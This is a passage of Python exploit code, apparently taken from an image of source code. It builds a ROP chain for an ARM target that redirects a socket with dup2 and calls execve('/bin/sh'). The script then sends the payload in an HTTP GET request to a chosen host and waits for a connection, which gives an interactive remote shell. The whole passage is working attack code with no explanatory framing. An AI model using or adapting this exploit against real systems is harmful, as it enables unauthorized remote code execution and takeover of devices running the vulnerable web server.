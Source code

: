 ```python
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(dup2_ea) # dup2(csock, 2)
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_pop_r4_ea)
        payload += p32(stack_dummy_ea) # r4
        payload += p32(g_mov_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_pop_r1_r2_r3_ea)
        payload += p32(0xdeadbeef) # r1
        payload += p32(0xffffffff) # r2
        payload += p32(0xdeadbeef) # r3
        payload += p32(g_add_r2_1_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += p32(binsh_ea)
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_mov_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(execve_stub_ea) # execve("/bin/sh", NULL, NULL)
       

        
        with open("payload.bin", "wb+") as f:
            f.write(payload)

        if check_null_bytes(payload):
            exit(1)


        req = b'GET /' + urlencode(payload).encode() + b' HTTP/1.1\r\n'
        req += b'Host: ' + args.host[0].encode() + b'\r\n'
        req += b'\r\n'
        #req = b'GET /' + payload + b' HTTP/1.1\r\n'
        #req += b'Host: ' + args.host[0].encode() + b'\r\n'
        #req += b'\r\n'

        with open("request.txt", "wb+") as f:
            f.write(req)

        l = listen(args.listen)
    
        th = send_delayed(p, req, 1.0)

        c = l.wait_for_connection()
        th.join()
        c.interactive()


    else:
        parser.print_help()
        exit(1)
```
